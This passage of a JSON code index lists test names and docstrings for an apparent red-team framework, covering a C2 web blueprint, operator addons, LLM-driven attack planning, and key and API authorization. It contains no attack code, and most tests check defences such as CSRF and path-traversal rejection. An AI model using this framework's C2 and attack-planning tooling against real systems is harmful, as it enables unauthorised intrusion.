"test_should_replan_true_at_threshold", "signature": "def test_should_replan_true_at_threshold(self, tmp_path)"}, {"kind": "method", "line": 507, "name": "test_should_replan_false_for_completed_plan", "signature": "def test_should_replan_false_for_completed_plan(self, tmp_path)"}, {"kind": "method", "line": 523, "name": "test_replan_no_plan", "signature": "def test_replan_no_plan(self, tmp_path)"}, {"kind": "method", "line": 529, "name": "test_replan_increments_count", "signature": "def test_replan_increments_count(self, tmp_path)"}, {"kind": "method", "line": 536, "name": "test_replan_records_reason", "signature": "def test_replan_records_reason(self, tmp_path)"}, {"kind": "method", "line": 543, "name": "test_replan_injects_new_objectives", "signature": "def test_replan_injects_new_objectives(self, tmp_path)"}, {"kind": "method", "line": 553, "name": "test_replan_status_returns_to_active", "signature": "def test_replan_status_returns_to_active(self, tmp_path)"}, {"kind": "method", "line": 560, "name": "test_replan_twice_counts_two", "signature": "def test_replan_twice_counts_two(self, tmp_path)"}, {"kind": "method", "line": 568, "name": "test_replan_with_llm", "signature": "def test_replan_with_llm(self, tmp_path)"}, {"kind": "method", "line": 597, "name": "test_complete_archives_plan", "signature": "def test_complete_archives_plan(self, tmp_path)"}, {"kind": "method", "line": 607, "name": "test_complete_marks_plan_as_completed", "signature": "def test_complete_marks_plan_as_completed(self, tmp_path)"}, {"kind": "method", "line": 617, "name": "test_complete_no_plan", "signature": "def test_complete_no_plan(self, tmp_path)"}, {"kind": "method", "line": 627, "name": "_make_plan_with_statuses", "signature": "def _make_plan_with_statuses(self, phase_statuses, replan_count)"}, {"kind": "method", "line": 655, "name": "test_reflect_blocked_phase_generates_lesson", "signature": "def test_reflect_blocked_phase_generates_lesson(self, tmp_path)"}, {"kind": "method", "line": 665, "name": "test_reflect_done_after_replan_generates_lesson", "signature": "def test_reflect_done_after_replan_generates_lesson(self, tmp_path)"}, {"kind": "method", "line": 674, "name": "test_reflect_no_lessons_clean_plan", "signature": "def test_reflect_no_lessons_clean_plan(self, tmp_path)"}, {"kind": "method", "line": 683, "name": "test_reflect_persists_to_file", "signature": "def test_reflect_persists_to_file(self, tmp_path)"}, {"kind": "method", "line": 698, "name": "test_reflect_lesson_has_required_fields", "signature": "def test_reflect_lesson_has_required_fields(self, tmp_path)"}, {"kind": "method", "line": 724, "name": "test_mcp_aci_status_no_plan", "signature": "def test_mcp_aci_status_no_plan(self, tmp_path)"}, {"kind": "method", "line": 734, "name": "test_mcp_aci_plan_returns_json", "signature": "def test_mcp_aci_plan_returns_json(self, tmp_path)"}, {"kind": "method", "line": 747, "name": "test_mcp_aci_plan_uses_rhost_from_payload", "signature": "def test_mcp_aci_plan_uses_rhost_from_payload(self, tmp_path)"}, {"kind": "method", "line": 758, "name": "test_mcp_aci_plan_static_backend", "signature": "def test_mcp_aci_plan_static_backend(self, tmp_path)"}, {"kind": "method", "line": 769, "name": "test_mcp_aci_replan_no_plan", "signature": "def test_mcp_aci_replan_no_plan(self, tmp_path)"}, {"kind": "method", "line": 780, "name": "test_mcp_aci_replan_with_plan", "signature": "def test_mcp_aci_replan_with_plan(self, tmp_path)"}, {"kind": "method", "line": 793, "name": "test_mcp_aci_status_after_plan", "signature": "def test_mcp_aci_status_after_plan(self, tmp_path)"}, {"kind": "method", "line": 806, "name": "test_mcp_aci_plan_phase_filter", "signature": "def test_mcp_aci_plan_phase_filter(self, tmp_path)"}, {"kind": "method", "line": 830, "name": "test_save_load_plan_roundtrip", "signature": "def test_save_load_plan_roundtrip(self, tmp_path)"}, {"kind": "method", "line": 845, "name": "test_load_plan_returns_none_for_missing", "signature": "def test_load_plan_returns_none_for_missing(self, tmp_path)"}, {"kind": "method", "line": 851, "name": "test_load_plan_returns_none_for_corrupt", "signature": "def test_load_plan_returns_none_for_corrupt(self, tmp_path)"}, {"kind": "method", "line": 859, "name": "test_archive_plan_appends", "signature": "def test_archive_plan_appends(self, tmp_path)"}, {"kind": "method", "line": 876, "name": "test_count_objectives_by_status", "signature": "def test_count_objectives_by_status(self, tmp_path)"}, {"kind": "method", "line": 904, "name": "test_count_objectives_returns_empty_for_missing_file", "signature": "def test_count_objectives_returns_empty_for_missing_file(self, tmp_path)"}, {"kind": "method", "line": 915, "name": "test_plan_command", "signature": "def test_plan_command(self, tmp_path)"}, {"kind": "method", "line": 926, "name": "test_status_command_no_plan", "signature": "def test_status_command_no_plan(self, tmp_path, capsys)"}, {"kind": "method", "line": 940, "name": "test_replan_command_no_plan", "signature": "def test_replan_command_no_plan(self, tmp_path, capsys)"}, {"kind": "method", "line": 954, "name": "test_no_subcommand_returns_nonzero", "signature": "def test_no_subcommand_returns_nonzero(self, tmp_path)"}, {"kind": "method", "line": 960, "name": "test_reflect_command_no_plan", "signature": "def test_reflect_command_no_plan(self, tmp_path, capsys)"}]}, {"doc": "Tests for the LazyAddon creator contract and C2 blueprint.  Covers the SDD contract in ``lazyc2/addon_creator.py`` and the Flask blueprint in ``lazyc2/blueprints/addons.py``.  BDD scenarios: - Given a valid form, when validated and rendered, the document loads in the CLI loader schema and round-trips through the store - Given an invalid name, when validated, a name issue is reported - Given an unknown placeholder, when validated, a field issue is reported so the operator cannot ship a typo silently - Given a path traversal attempt, when saved, the store rejects it - Given a CSRF-less POST, when creating or deleting, the server answers 403 - Given a form POST with the issued token, when creating, the file appears under the addons directory and the client is redirected", "id": "tests/test_addon_creator.py", "kind": "module", "label": "test_addon_creator.py", "language": "py", "sha256": "6ee3cc56ec467fc5", "symbol_count": 86, "symbols": [{"doc": "Return a draft that passes every validation rule.", "kind": "function", "line": 45, "name": "_valid_draft", "signature": "def _valid_draft()"}, {"doc": "The config class must centralise every option, pattern, and limit.", "kind": "class", "line": 86, "name": "TestConfig", "signature": "class TestConfig"}, {"doc": "BDD: validation guards the operator against mistakes.", "kind": "class", "line": 117, "name": "TestValidator", "signature": "class TestValidator"}, {"doc": "BDD: the rendered document satisfies the CLI loader schema.", "kind": "class", "line": 263, "name": "TestYamlRenderer", "signature": "class TestYamlRenderer"}, {"doc": "BDD: persistence is path-safe, atomic, and idempotent.", "kind": "class", "line": 328, "name": "TestAddonStore", "signature": "class TestAddonStore"}, {"doc": "BDD: raw form data becomes a draft with correct semantics.", "kind": "class", "line": 460, "name": "TestParseAddonForm", "signature": "class TestParseAddonForm"}, {"doc": "Build a Flask test app with the addons blueprint registered.\n\nThe base layout references many monolith endpoints; stub rules are\nregistered so template rendering never depends on ``lazyc2.py``.\nFlask-Login is wired in so the session guard can be exercised.\n\nArgs:\n    tmp_path: The directory that receives addon files.\n\nReturns:\n    A configured Flask application.", "kind": "function", "line": 521, "name": "_build_test_app", "signature": "def _build_test_app(tmp_path)"}, {"doc": "Log the test client in through the Flask session.", "kind": "function", "line": 585, "name": "_login", "signature": "def _login(client)"}, {"doc": "BDD: the C2 endpoints guard against CSRF and persist valid forms.", "kind": "class", "line": 591, "name": "TestBlueprint", "signature": "class TestBlueprint"}, {"doc": "The shipped templates must stay renderable and tooltip rich.", "kind": "class", "line": 805, "name": "TestTemplateSanity", "signature": "class TestTemplateSanity"}, {"kind": "method", "line": 89, "name": "test_name_pattern_rejects_traversal", "signature": "def test_name_pattern_rejects_traversal(self)"}, {"kind": "method", "line": 96, "name": "test_patterns_accept_canonical_values", "signature": "def test_patterns_accept_canonical_values(self)"}, {"kind": "method", "line": 105, "name": "test_os_options_cover_mitre_platforms", "signature": "def test_os_options_cover_mitre_platforms(self)"}, {"kind": "method", "line": 111, "name": "test_payload_placeholders_cover_core_keys", "signature": "def test_payload_placeholders_cover_core_keys(self)"}, {"kind": "method", "line": 120, "name": "test_valid_draft_has_no_issues", "signature": "def test_valid_draft_has_no_issues(self)"}, {"kind": "method", "line": 125, "name": "test_missing_name_reports_issue", "signature": "def test_missing_name_reports_issue(self)"}, {"kind": "method", "line": 131, "name": "test_invalid_name_reports_issue", "signature": "def test_invalid_name_reports_issue(self)"}, {"kind": "method", "line": 138, "name": "test_missing_description_reports_issue", "signature": "def test_missing_description_reports_issue(self)"}, {"kind": "method", "line": 144, "name": "test_unknown_os_reports_issue", "signature": "def test_unknown_os_reports_issue(self)"}, {"kind": "method", "line": 150, "name": "test_unknown_module_type_reports_issue", "signature": "def test_unknown_module_type_reports_issue(self)"}, {"kind": "method", "line": 156, "name": "test_malformed_category_reports_issue", "signature": "def test_malformed_category_reports_issue(self)"}, {"kind": "method", "line": 162, "name": "test_uppercase_trigger_reports_issue", "signature": "def test_uppercase_trigger_reports_issue(self)"}, {"kind": "method", "line": 168, "name": "test_missing_execute_command_reports_issue", "signature": "def test_missing_execute_command_reports_issue(self)"}, {"kind": "method", "line": 174, "name": "test_unknown_placeholder_reports_issue", "signature": "def test_unknown_placeholder_reports_issue(self)"}, {"kind": "method", "line": 180, "name": "test_nested_brace_placeholder_reports_issue", "signature": "def test_nested_brace_placeholder_reports_issue(self)"}, {"kind": "method", "line": 186, "name": "test_declared_param_placeholder_is_allowed", "signature": "def test_declared_param_placeholder_is_allowed(self)"}, {"kind": "method", "line": 192, "name": "test_install_path_without_repo_url_reports_issue", "signature": "def test_install_path_without_repo_url_reports_issue(self)"}, {"kind": "method", "line": 198, "name": "test_traversal_install_path_reports_issue", "signature": "def test_traversal_install_path_reports_issue(self)"}, {"kind": "method", "line": 205, "name": "test_bad_repo_url_reports_issue", "signature": "def test_bad_repo_url_reports_issue(self)"}, {"kind": "method", "line": 212, "name": "test_duplicate_param_reports_issue", "signature": "def test_duplicate_param_reports_issue(self)"}, {"kind": "method", "line": 218, "name": "test_param_without_description_reports_issue", "signature": "def test_param_without_description_reports_issue(self)"}, {"kind": "method", "line": 224, "name": "test_integer_default_must_parse", "signature": "def test_integer_default_must_parse(self)"}, {"kind": "method", "line": 232, "name": "test_boolean_default_whitelist", "signature": "def test_boolean_default_whitelist(self)"}, {"kind": "method", "line": 240, "name": "test_too_many_params_reports_issue", "signature": "def test_too_many_params_reports_issue(self)"}, {"kind": "method", "line": 249, "name": "test_malformed_env_entry_reports_issue", "signature": "def test_malformed_env_entry_reports_issue(self)"}, {"kind": "method", "line": 255, "name": "test_validation_error_carries_issues", "signature": "def test_validation_error_carries_issues(self)"}, {"kind": "method", "line": 266, "name": "test_rendered_document_is_canonical", "signature": "def test_rendered_document_is_canonical(self)"}, {"kind": "method", "line": 286, "name": "test_yaml_round_trips_through_loader", "signature": "def test_yaml_round_trips_through_loader(self)"}, {"kind": "method", "line": 295, "name": "test_optional_fields_are_dropped", "signature": "def test_optional_fields_are_dropped(self)"}, {"kind": "method", "line": 310, "name": "test_rendered_yaml_has_no_none_values", "signature": "def test_rendered_yaml_has_no_none_values(self)"}, {"kind": "method", "line": 315, "name": "test_default_author_and_version_applied", "signature": "def test_default_author_and_version_applied(self)"}, {"kind": "method", "line": 331, "name": "test_save_load_delete_round_trip", "signature": "def test_save_load_delete_round_trip(self, tmp_path)"}, {"kind": "method", "line": 342, "name": "test_traversal_name_rejected_on_save", "signature": "def test_traversal_name_rejected_on_save(self, tmp_path)"}, {"kind": "method", "line": 347, "name": "test_traversal_name_rejected_on_load", "signature": "def test_traversal_name_rejected_on_load(self, tmp_path)"}, {"kind": "method", "line": 352, "name": "test_traversal_name_rejected_on_delete", "signature": "def test_traversal_name_rejected_on_delete(self, tmp_path)"}, {"kind": "method", "line": 357, "name": "test_save_is_atomic_and_leaves_no_temp_files", "signature": "def test_save_is_atomic_and_leaves_no_temp_files(self, tmp_path)"}, {"kind": "method", "line": 363, "name": "test_save_overwrites_cleanly", "signature": "def test_save_overwrites_cleanly(self, tmp_path)"}, {"kind": "method", "line": 369, "name": "test_load_missing_raises_file_not_found", "signature": "def test_load_missing_raises_file_not_found(self, tmp_path)"}, {"kind": "method", "line": 374, "name": "test_list_all_skips_broken_files", "signature": "def test_list_all_skips_broken_files(self, tmp_path)"}, {"kind": "method", "line": 383, "name": "test_list_all_is_sorted_and_has_expected_keys", "signature": "def test_list_all_is_sorted_and_has_expected_keys(self, tmp_path)"}, {"kind": "method", "line": 400, "name": "test_list_all_reports_file_stem_as_filename", "signature": "def test_list_all_reports_file_stem_as_filename(self, tmp_path)"}, {"kind": "method", "line": 407, "name": "test_load_accepts_pre_existing_uppercase_names", "signature": "def test_load_accepts_pre_existing_uppercase_names(self, tmp_path)"}, {"kind": "method", "line": 413, "name": "test_load_accepts_pre_existing_dots_and_hyphens", "signature": "def test_load_accepts_pre_existing_dots_and_hyphens(self, tmp_path)"}, {"kind": "method", "line": 419, "name": "test_load_still_rejects_traversal_through_existing_path", "signature": "def test_load_still_rejects_traversal_through_existing_path(self, tmp_path)"}, {"kind": "method", "line": 425, "name": "test_delete_rejects_unsafe_existing_names", "signature": "def test_delete_rejects_unsafe_existing_names(self, tmp_path)"}, {"kind": "method", "line": 430, "name": "test_missing_directory_lists_empty", "signature": "def test_missing_directory_lists_empty(self, tmp_path)"}, {"kind": "method", "line": 434, "name": "test_exists_swallows_invalid_names", "signature": "def test_exists_swallows_invalid_names(self, tmp_path)"}, {"kind": "method", "line": 438, "name": "test_symlink_escape_rejected_on_load", "signature": "def test_symlink_escape_rejected_on_load(self, tmp_path)"}, {"kind": "method", "line": 448, "name": "test_symlink_escape_rejected_on_delete", "signature": "def test_symlink_escape_rejected_on_delete(self, tmp_path)"}, {"kind": "method", "line": 463, "name": "test_parse_complete_form", "signature": "def test_parse_complete_form(self)"}, {"kind": "method", "line": 505, "name": "test_unchecked_enabled_becomes_false", "signature": "def test_unchecked_enabled_becomes_false(self)"}, {"kind": "method", "line": 509, "name": "test_missing_optional_fields_become_empty", "signature": "def test_missing_optional_fields_become_empty(self)"}, {"kind": "method", "line": 516, "name": "test_single_trigger_string_becomes_list", "signature": "def test_single_trigger_string_becomes_list(self)"}, {"doc": "Minimal Flask-Login user for session simulation.", "kind": "class", "line": 570, "name": "_FakeOperator", "signature": "class _FakeOperator(UserMixin)"}, {"kind": "function", "line": 577, "name": "_load_user", "signature": "def _load_user(user_id)"}, {"kind": "method", "line": 594, "name": "test_unauthenticated_access_redirects_to_login", "signature": "def test_unauthenticated_access_redirects_to_login(self, tmp_path)"}, {"kind": "method", "line": 602, "name": "test_create_form_issues_csrf_cookie", "signature": "def test_create_form_issues_csrf_cookie(self, tmp_path)"}, {"kind": "method", "line": 612, "name": "test_post_without_csrf_is_rejected", "signature": "def test_post_without_csrf_is_rejected(self, tmp_path)"}, {"kind": "method", "line": 619, "name": "test_delete_without_csrf_is_rejected", "signature": "def test_delete_without_csrf_is_rejected(self, tmp_path)"}, {"doc": "Return a complete valid form payload for the creation route.", "kind": "method", "line": 626, "name": "_form_data", "signature": "def _form_data(self)"}, {"doc": "Fetch the creation page and extract the embedded form token.", "kind": "method", "line": 650, "name": "_csrf_token", "signature": "def _csrf_token(self, client)"}, {"kind": "method", "line": 660, "name": "test_valid_post_creates_addon_and_redirects", "signature": "def test_valid_post_creates_addon_and_redirects(self, tmp_path)"}, {"kind": "method", "line": 673, "name": "test_invalid_post_rerenders_with_field_errors", "signature": "def test_invalid_post_rerenders_with_field_errors(self, tmp_path)"}, {"kind": "method", "line": 685, "name": "test_duplicate_name_rerenders_with_error", "signature": "def test_duplicate_name_rerenders_with_error(self, tmp_path)"}, {"kind": "method", "line": 698, "name": "test_view_page_renders_yaml", "signature": "def test_view_page_renders_yaml(self, tmp_path)"}, {"kind": "method", "line": 710, "name": "test_list_page_shows_created_addon", "signature": "def test_list_page_shows_created_addon(self, tmp_path)"}, {"kind": "method", "line": 722, "name": "test_delete_removes_addon", "signature": "def test_delete_removes_addon(self, tmp_path)"}, {"kind": "method", "line": 734, "name": "test_delete_unknown_addon_flashes_and_redirects", "signature": "def test_delete_unknown_addon_flashes_and_redirects(self, tmp_path)"}, {"kind": "method", "line": 744, "name": "test_view_unknown_addon_redirects_to_list", "signature": "def test_view_unknown_addon_redirects_to_list(self, tmp_path)"}, {"kind": "method", "line": 751, "name": "test_view_legacy_uppercase_addon_renders", "signature": "def test_view_legacy_uppercase_addon_renders(self, tmp_path)"}, {"kind": "method", "line": 764, "name": "test_list_page_links_by_filename_for_legacy_names", "signature": "def test_list_page_links_by_filename_for_legacy_names(self, tmp_path)"}, {"kind": "method", "line": 774, "name": "test_delete_legacy_uppercase_addon", "signature": "def test_delete_legacy_uppercase_addon(self, tmp_path)"}, {"doc": "The file produced through HTTP satisfies the CLI loader schema.", "kind": "method", "line": 786, "name": "test_rendered_addon_passes_cli_schema_contract", "signature": "def test_rendered_addon_passes_cli_schema_contract(self, tmp_path)"}, {"kind": "method", "line": 808, "name": "test_creator_template_has_help_affordances", "signature": "def test_creator_template_has_help_affordances(self)"}, {"kind": "method", "line": 816, "name": "test_creator_template_forbids_emojis_and_console_spam", "signature": "def test_creator_template_forbids_emojis_and_console_spam(self)"}, {"kind": "method", "line": 821, "name": "test_tools_creator_template_has_no_broken_js", "signature": "def test_tools_creator_template_has_no_broken_js(self)"}]}, {"doc": "TDD tests for the AES key resolution contract.  Contract: ``core.config.resolve_aes_key`` returns a 32-byte key derived from a configuration value, an existing on-disk key, or a freshly generated one. The resolved key is exposed on :class:`Config` as ``self.aes_key`` (bytes) and through the legacy ``self.params['aes_key']`` access path (hex string).  Invariants:  1. When ``aes_key`` in the payload is a 64-char hex string, it is decoded into 32 bytes and used as-is. 2. When ``aes_key`` is empty/missing, an on-disk key under ``sessions/key.aes`` is loaded if present. 3. When neither exists, ``os.urandom(32)`` is generated and persisted with mode ``0o600``. 4. An invalid hex string of the wrong length raises ``ValueError``. 5. After ``Config(...)`` is built, ``self.aes_key`` is always 32 bytes.", "id": "tests/test_aes_key_propagation.py", "kind": "module", "label": "test_aes_key_propagation.py", "language": "py", "sha256": "4925b37cbf13afed", "symbol_count": 12, "symbols": [{"doc": "A 64-char hex in the payload becomes 32 bytes.", "kind": "class", "line": 32, "name": "TestHexSource", "signature": "class TestHexSource"}, {"doc": "An on-disk key is loaded when the payload is empty.", "kind": "class", "line": 57, "name": "TestDiskSource", "signature": "class TestDiskSource"}, {"doc": "A fresh key is generated when nothing else is available.", "kind": "class", "line": 67, "name": "TestGeneratedSource", "signature": "class TestGeneratedSource"}, {"doc": "The resolved key is reachable from :class:`Config`.", "kind": "class", "line": 83, "name": "TestConfigExposesKey", "signature": "class TestConfigExposesKey"}, {"kind": "method", "line": 35, "name": "test_valid_hex_decodes_to_32_bytes", "signature": "def test_valid_hex_decodes_to_32_bytes(self)"}, {"kind": "method", "line": 42, "name": "test_wrong_length_raises", "signature": "def test_wrong_length_raises(self)"}, {"kind": "method", "line": 49, "name": "test_non_hex_raises", "signature": "def test_non_hex_raises(self)"}, {"kind": "method", "line": 60, "name": "test_existing_disk_key_is_loaded", "signature": "def test_existing_disk_key_is_loaded(self, tmp_path)"}, {"kind": "method", "line": 70, "name": "test_generated_key_is_32_bytes", "signature": "def test_generated_key_is_32_bytes(self, tmp_path)"}, {"kind": "method", "line": 75, "name": "test_generated_key_is_persisted", "signature": "def test_generated_key_is_persisted(self, tmp_path)"}, {"kind": "method", "line": 86, "name": "test_config_has_aes_key_attribute", "signature": "def test_config_has_aes_key_attribute(self)"}, {"kind": "method", "line": 91, "name": "test_config_exposes_params_dict", "signature": "def test_config_exposes_params_dict(self)"}]}, {"doc": "Behavioural tests for the resurrected ``ask``/``groq`` commands.  Pins the functional gap closure: ``do_ask`` answers through the configured ``llm_backend`` and ``do_groq`` through the explicit Groq backend, both in-process via the canonical factory/adapter contracts. No subprocess, no network, no shell is exercised.", "id": "tests/test_ai_commands_llm.py", "kind": "module", "label": "test_ai_commands_llm.py", "language": "py", "sha256": "9c034da5ce3b501c", "symbol_count": 18, "symbols": [{"kind": "function", "line": 17, "name": "_command_set", "signature": "def _command_set()"}, {"kind": "class", "line": 26, "name": "TestDoAsk", "signature": "class TestDoAsk"}, {"kind": "class", "line": 53, "name": "TestDoGroq", "signature": "class TestDoGroq"}, {"kind": "method", "line": 27, "name": "test_empty_question_prints_usage", "signature": "def test_empty_question_prints_usage(self, monkeypatch)"}, {"kind": "method", "line": 33, "name": "test_question_forwarded_with_session_context", "signature": "def test_question_forwarded_with_session_context(self, monkeypatch)"}, {"kind": "method", "line": 45, "name": "test_backend_error_surfaces_as_message", "signature": "def test_backend_error_surfaces_as_message(self, monkeypatch)"}, {"kind": "method", "line": 54, "name": "test_unavailable_backend_prints_actionable_error", "signature": "def test_unavailable_backend_prints_actionable_error(self, monkeypatch)"}, {"kind": "method", "line": 66, "name": "test_success_completes_oneliner_and_prints", "signature": "def test_success_completes_oneliner_and_prints(self, monkeypatch)"}, {"kind": "method", "line": 90, "name": "test_completion_failure_prints_error", "signature": "def test_completion_failure_prints_error(self, monkeypatch)"}, {"kind": "method", "line": 103, "name": "test_empty_line_falls_back_to_shell_prompt", "signature": "def test_empty_line_falls_back_to_shell_prompt(self, monkeypatch)"}, {"kind": "function", "line": 57, "name": "_raise", "signature": "def _raise()"}, {"kind": "class", "line": 71, "name": "_Backend", "signature": "class _Backend"}, {"kind": "function", "line": 77, "name": "_factory", "signature": "def _factory()"}, {"kind": "class", "line": 93, "name": "_Backend", "signature": "class _Backend"}, {"kind": "class", "line": 106, "name": "_Backend", "signature": "class _Backend"}, {"kind": "method", "line": 72, "name": "complete", "signature": "def complete(self, system, user)"}, {"kind": "method", "line": 94, "name": "complete", "signature": "def complete(self, system, user)"}, {"kind": "method", "line": 107, "name": "complete", "signature": "def complete(self, system, user)"}]}, {"doc": "Tests for ``core.api_authz`` — tenant-bound API authorization.  Covers ApiAuthzConfig, ApiKey, ApiKeyStore, require_api_auth decorator, and create_api_token helper.", "id": "tests/test_api_authz.py", "kind": "module", "label": "test_api_authz.py", "language": "py", "sha256": "2302f8f26dfd31ac", "symbol_count": 48, "symbols": [{"doc": "Behaviour of the ApiAuthzConfig dataclass.", "kind": "class", "line": 21, "name": "TestApiAuthzConfig", "signature": "class TestApiAuthzConfig"}, {"doc": "Behaviour of the ApiKey data class.", "kind": "class", "line": 45, "name": "TestApiKey", "signature": "class TestApiKey"}, {"doc": "Behaviour of the ApiKeyStore persistence layer.", "kind": "class", "line": 102, "name": "TestApiKeyStore", "signature": "class TestApiKeyStore"}, {"doc": "Behaviour of the require_api_auth Flask decorator.", "kind": "class", "line": 288, "name": "TestRequireApiAuth", "signature": "class TestRequireApiAuth"}, {"doc": "Behaviour of the create_api_token convenience helper.", "kind": "class", "line": 377, "name": "TestCreateApiToken", "signature": "class TestCreateApiToken"}, {"doc": "Edge-case and security boundary tests for api_authz.", "kind": "class", "line": 423, "name": "TestEdgeCases", "signature": "class TestEdgeCases"}, {"kind": "method", "line": 24, "name": "test_defaults_are_secure_by_default", "signature": "def test_defaults_are_secure_by_default(self)"}, {"kind": "method", "line": 32, "name": "test_custom_overrides_preserve_typed_semantics", "signature": "def test_custom_overrides_preserve_typed_semantics(self)"}, {"kind": "method", "line": 48, "name": "test_serialization_roundtrip_preserves_all_fields", "signature": "def test_serialization_roundtrip_preserves_all_fields(self)"}, {"kind": "method", "line": 65, "name": "test_detects_expiration_correctly", "signature": "def test_detects_expiration_correctly(self)"}, {"kind": "method", "line": 87, "name": "test_checks_permissions_with_set_operations", "signature": "def test_checks_permissions_with_set_operations(self)"}, {"kind": "method", "line": 105, "name": "_make_store", "signature": "def _make_store(self, tmp_path)"}, {"kind": "method", "line": 114, "name": "test_creates_and_lists_keys_scoped_by_tenant", "signature": "def test_creates_and_lists_keys_scoped_by_tenant(self, tmp_path)"}, {"kind": "method", "line": 125, "name": "test_validates_a_known_key_and_returns_record", "signature": "def test_validates_a_known_key_and_returns_record(self, tmp_path)"}, {"kind": "method", "line": 133, "name": "test_rejects_unknown_key_returning_none", "signature": "def test_rejects_unknown_key_returning_none(self, tmp_path)"}, {"kind": "method", "line": 137, "name": "test_rejects_empty_plaintext_key", "signature": "def test_rejects_empty_plaintext_key(self, tmp_path)"}, {"kind": "method", "line": 141, "name": "test_rejects_expired_key", "signature": "def test_rejects_expired_key(self, tmp_path)"}, {"kind": "method", "line": 162, "name": "test_updates_last_used_on_successful_validation", "signature": "def test_updates_last_used_on_successful_validation(self, tmp_path)"}, {"kind": "method", "line": 173, "name": "test_revokes_key_preventing_future_validation", "signature": "def test_revokes_key_preventing_future_validation(self, tmp_path)"}, {"kind": "method", "line": 179, "name": "test_revocation_is_idempotent", "signature": "def test_revocation_is_idempotent(self, tmp_path)"}, {"kind": "method", "line": 183, "name": "test_enforces_max_keys_per_tenant_raises_value_error", "signature": "def test_enforces_max_keys_per_tenant_raises_value_error(self, tmp_path)"}, {"kind": "method", "line": 196, "name": "test_rotates_key_preserving_tenant_label_and_permissions", "signature": "def test_rotates_key_preserving_tenant_label_and_permissions(self, tmp_path)"}, {"kind": "method", "line": 206, "name": "test_rotation_copies_permissions_from_the_rotated_key", "signature": "def test_rotation_copies_permissions_from_the_rotated_key(self, tmp_path)"}, {"kind": "method", "line": 217, "name": "test_old_key_stays_valid_during_rotation_grace", "signature": "def test_old_key_stays_valid_during_rotation_grace(self, tmp_path)"}, {"kind": "method", "line": 225, "name": "test_old_key_rejected_after_rotation_grace_expires", "signature": "def test_old_key_rejected_after_rotation_grace_expires(self, tmp_path)"}, {"kind": "method", "line": 240, "name": "test_retired_keys_are_pruned_after_grace_expires", "signature": "def test_retired_keys_are_pruned_after_grace_expires(self, tmp_path)"}, {"kind": "method", "line": 258, "name": "test_rotation_does_not_grow_active_key_count", "signature": "def test_rotation_does_not_grow_active_key_count(self, tmp_path)"}, {"kind": "method", "line": 275, "name": "test_never_stores_plaintext_token_on_disk", "signature": "def test_never_stores_plaintext_token_on_disk(self, tmp_path)"}, {"kind": "method", "line": 291, "name": "_make_app", "signature": "def _make_app(self, tmp_path)"}, {"kind": "method", "line": 301, "name": "_build_client", "signature": "def _build_client(self, tmp_path, store)"}, {"kind": "method", "line": 333, "name": "test_allows_valid_key_in_bearer_header", "signature": "def test_allows_valid_key_in_bearer_header(self, tmp_path)"}, {"kind": "method", "line": 340, "name": "test_allows_valid_key_in_x_api_key_header", "signature": "def test_allows_valid_key_in_x_api_key_header(self, tmp_path)"}, {"kind": "method", "line": 346, "name": "test_allows_valid_key_in_query_param", "signature": "def test_allows_valid_key_in_query_param(self, tmp_path)"}, {"kind": "method", "line": 352, "name": "test_rejects_missing_key_with_401", "signature": "def test_rejects_missing_key_with_401(self, tmp_path)"}, {"kind": "method", "line": 357, "name": "test_rejects_invalid_key_with_401", "signature": "def test_rejects_invalid_key_with_401(self, tmp_path)"}, {"kind": "method", "line": 362, "name": "test_rejects_key_with_insufficient_permissions_with_403", "signature": "def test_rejects_key_with_insufficient_permissions_with_403(self, tmp_path)"}, {"kind": "method", "line": 368, "name": "test_sets_g_variables_with_api_key_context_on_success", "signature": "def test_sets_g_variables_with_api_key_context_on_success(self, tmp_path)"}, {"kind": "method", "line": 380, "name": "_make_store", "signature": "def _make_store(self, tmp_path)"}, {"kind": "method", "line": 389, "name": "test_returns_a_validatable_token", "signature": "def test_returns_a_validatable_token(self, tmp_path)"}, {"kind": "method", "line": 397, "name": "test_stores_permissions_on_the_key_record", "signature": "def test_stores_permissions_on_the_key_record(self, tmp_path)"}, {"kind": "method", "line": 412, "name": "test_sets_expiration_when_days_are_provided", "signature": "def test_sets_expiration_when_days_are_provided(self, tmp_path)"}, {"kind": "method", "line": 426, "name": "_make_store", "signature": "def _make_store(self, tmp_path)"}, {"kind": "method", "line": 435, "name": "test_constant_time_comparison_rejects_wrong_secrets", "signature": "def test_constant_time_comparison_rejects_wrong_secrets(self)"}, {"kind": "method", "line": 444, "name": "test_generates_50_unique_tokens_without_collision", "signature": "def test_generates_50_unique_tokens_without_collision(self)"}, {"kind": "method", "line": 450, "name": "test_atomic_write_leaves_no_tmp_files", "signature": "def test_atomic_write_leaves_no_tmp_files(self, tmp_path)"}, {"kind": "function", "line": 313, "name": "secure", "signature": "def secure()"}, {"kind": "function", "line": 318, "name": "g_check", "signature": "def g_check()"}, {"kind": "function", "line": 328, "name": "admin_only", "signature": "def admin_only()"}]}, {"doc": "API-key resolution contract tests.  Covers the two defects that broke ``vulnbot_groq``:  - ``self.params[\"api_key\"]`` was hardcoded to ``None`` in ``lazyown.py`` instead of reading the config-derived ``api_key`` class attribute, so every startup-level gate (``recon``, ``lazyown`` chain, AI bootstrap) saw no key. - ``replace_command_placeholders`` only handled ``{key}`` while addons emit ``{{key}}`` (documented in ``modules/yaml_generator.py``), so ``GROQ_API_KEY=\"{{ api_key }}\"`` was never substituted.", "id": "tests/test_api_key_resolution.py", "kind": "module", "label": "test_api_key_resolution.py", "language": "py", "sha256": "5be1ca2ce9bf115e", "symbol_count": 9, "symbols": [{"kind": "class", "line": 21, "name": "TestApiKeyWiredIntoParams", "signature": "class TestApiKeyWiredIntoParams"}, {"kind": "class", "line": 39, "name": "TestReplaceCommandPlaceholders", "signature": "class TestReplaceCommandPlaceholders"}, {"kind": "method", "line": 22, "name": "test_params_api_key_is_not_hardcoded_none", "signature": "def test_params_api_key_is_not_hardcoded_none(self)"}, {"kind": "method", "line": 28, "name": "test_params_api_key_binds_config_attr", "signature": "def test_params_api_key_binds_config_attr(self)"}, {"kind": "method", "line": 34, "name": "test_class_attribute_api_key_reads_payload", "signature": "def test_class_attribute_api_key_reads_payload(self)"}, {"kind": "method", "line": 40, "name": "test_double_brace_substitution", "signature": "def test_double_brace_substitution(self)"}, {"kind": "method", "line": 47, "name": "test_single_brace_substitution", "signature": "def test_single_brace_substitution(self)"}, {"kind": "method", "line": 56, "name": "test_mixed_braces_in_one_command", "signature": "def test_mixed_braces_in_one_command(self)"}, {"kind": "method", "line": 63, "name": "test_missing_key_left_intact", "signature": "def test_missing_key_left_intact(self)"}]}, {"doc": "Integration tests for the versioned C2 REST API (``/api/v1``).  Builds a minimal Flask app with ``api_v1_bp`` registered, an 